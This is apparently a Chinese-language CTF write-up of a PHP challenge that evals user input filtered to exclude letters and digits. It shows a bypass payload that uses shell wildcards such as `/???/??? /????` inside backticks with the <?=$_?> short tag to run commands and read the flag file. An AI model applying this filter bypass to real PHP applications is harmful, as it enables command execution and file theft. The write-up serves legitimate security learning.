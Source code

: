 ```yaml
---
layout:     post
title:      ctf-极限利用
subtitle:   ctf
date:       2018-08-18 				# 时间
author:     sh1llc0de					# 作者
catalog: true 						# 是否归档
tags:								#标签
    - CTF
---
```


# ctf_极限利用
>前几天看到安全客上面有一道ctf的文章，然后自己看的一脸蒙蔽，通过一些学习还是学会了。

## 源码
```php
<?php
include 'flag.php';
if(isset($_GET['code'])){
    $code = $_GET['code'];
    if(strlen($code)>40){
        die("Long.");
    }
    if(preg_match("/[A-Za-z0-9]+/",$code)){
        die("NO.");
    }
    @eval($code);
}else{
    highlight_file(__FILE__);
}
//$hint =  "php function getFlag() to get flag";
?>
```

## 分析
* 首先我们传入的值不能有大小写字母和数字
* 其次我们传入的值长度不能大于40

## 思路
  首先hint信息提示我们是要通过getflag函数来获取flag，但是本人实力有限，用了安全客的第二种方法，我们可以不执行getflag函数，因为Linux下的一切都是文件，那不如去构造一个读文件，或者命令执行来读flag，思路确定后开始尝试。

### 取回结果
  原作者是说采用<?=$_?>方式来获取，我当时看的反正一脸蒙蔽，在一些大佬的帮助下知道了这个是短标签(原来看到过，记性不好)，<?=也就是等价于<?php echo，当然要使用短标签的话要开启short_open_tag这个选项，这样我们就可以取回结果了。

### 如何构造字母？执行命令？
  原来在p牛的代码审计中的题目看到过可以通过某些值亦或某些值来构造字母，但是还是本人实力的问题。。所以我还是采用了作者的方法，使用通配符来绕过不能是用字母。

### 开始尝试
  首先先尝试一下获取index.php的源码，可以这样构造"?code=$_=`/???/??? /???/???/????/*`;?><?=$_?>",稍微解释一下，通过给$_赋值我们要执行的命令，然后通过php短标签来执行命令并打印。然后屏幕上应该回显了一大堆的乱码，而我们要的源码在最底部。
![](https://s1.ax1x.com/2018/08/18/Pf6FiT.jpg)
	
  知道源码之后我们发现flag.php是读取的/flag的内容的，按我们直接构造呗"?code=$_=`/???/??? /????`;?><?=$_?>"同样的，我们的flag还是在最底部。
![](https://s1.ax1x.com/2018/08/18/Pf6Ez4.jpg)

### 总结
  这到题目十分的灵活，让我知道了许多不知道的内容，同时也感谢大佬们的帮助。
	
### 原文地址:	https://www.anquanke.com/post/id/154284
